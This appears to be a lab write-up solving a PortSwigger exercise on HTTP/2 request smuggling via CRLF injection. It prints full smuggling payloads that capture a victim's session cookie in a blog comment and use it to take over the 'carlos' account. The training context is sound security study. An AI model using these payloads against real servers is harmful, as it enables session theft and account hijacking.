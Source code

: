 
# HTTP/2 request smuggling via CRLF injection

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to the documentation for details on how to use them.

Hint: To inject newlines into HTTP/2 headers, use the Inspector to drill down into the header, then press the Shift + Return keys. Note that this feature is not available when you double-click on the header.

Hint: We covered some ways you can capture other users' requests via request smuggling in a previous lab.

---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling/advanced



![img](images/HTTP2%20request%20smuggling%20via%20CRLF%20injection/1.png)

---------------------------------------------


There is a function to send comments:



![img](images/HTTP2%20request%20smuggling%20via%20CRLF%20injection/2.png)


It generates a POST request:



![img](images/HTTP2%20request%20smuggling%20via%20CRLF%20injection/3.png)


To test the H2.TE payload like this one:

```
POST / HTTP/2
...
Fo: ba\r\nTransfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

0

GET /404 HTTP/1.1
Host: 0a17003f0315a26781520cb5003200e0.web-security-academy.net
Content-Length: 10

a
```


We must add a new header and add \r\n and the “Transfer-Encoding: chunked” header inside its value, in the Inspector, with the keys “Shift+Return” (Mayús+Enter):



![img](images/HTTP2%20request%20smuggling%20via%20CRLF%20injection/4.png)


Every 2 requests, one is to /404:



![img](images/HTTP2%20request%20smuggling%20via%20CRLF%20injection/5.png)


We will change the request to “/404” for a payload to post a comment:

```
POST / HTTP/2
...
Fo: ba\r\nTransfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

0

POST /post/comment HTTP/1.1
Host: 0a17003f0315a26781520cb5003200e0.web-security-academy.net
Cookie: session=BEv90Mt3fW0Ua3AiXdnRALcLTbcb1cfg; _lab_analytics=W8jIeMIzkpt2G9gyOcEFT7MFiZ9uNAOOZ88XEIvVkMgtrQsLrERyvJzQWYeBc1PbyatXyOMh1ZeLQyaqanxeybVTjzHVgx9YB99tmlK2eAkoQgvyLpNdoA3RE1zMyYP90bUEpeuwHcz8h0Fqcg8FLqvmVUbp1BAOCpmqjZ5jPJIVyleFT7Hye1PWojmaKKbY4pRRrF6d8yWPs1k4dP1aCt6d6UcTgLvoKp4Ji6amjKEGvwTm4s0cR8zPbWSmFnf0
Content-Length: 100

csrf=NO7t8vaJHMNuLmScMM45gMnp6NskWAQg&postId=9&name=test2&email=test3@test.com&website=http://test4.com&comment=
```



![img](images/HTTP2%20request%20smuggling%20via%20CRLF%20injection/6.png)


We see the request is written as a comment in the post:



![img](images/HTTP2%20request%20smuggling%20via%20CRLF%20injection/7.png)


The final payload is:

```
POST / HTTP/2
...
Fo: ba\r\nTransfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

0

POST /post/comment HTTP/1.1
Host: 0a17003f0315a26781520cb5003200e0.web-security-academy.net
Cookie: session=BEv90Mt3fW0Ua3AiXdnRALcLTbcb1cfg; _lab_analytics=W8jIeMIzkpt2G9gyOcEFT7MFiZ9uNAOOZ88XEIvVkMgtrQsLrERyvJzQWYeBc1PbyatXyOMh1ZeLQyaqanxeybVTjzHVgx9YB99tmlK2eAkoQgvyLpNdoA3RE1zMyYP90bUEpeuwHcz8h0Fqcg8FLqvmVUbp1BAOCpmqjZ5jPJIVyleFT7Hye1PWojmaKKbY4pRRrF6d8yWPs1k4dP1aCt6d6UcTgLvoKp4Ji6amjKEGvwTm4s0cR8zPbWSmFnf0
Content-Length: 200

csrf=NO7t8vaJHMNuLmScMM45gMnp6NskWAQg&postId=9&name=test2&email=test3@test.com&website=http://test4.com&comment=
```

You can read the whole cookies in the comments:



![img](images/HTTP2%20request%20smuggling%20via%20CRLF%20injection/8.png)


And use the cookie to accecss the page as “carlos”:



![img](images/HTTP2%20request%20smuggling%20via%20CRLF%20injection/9.png)

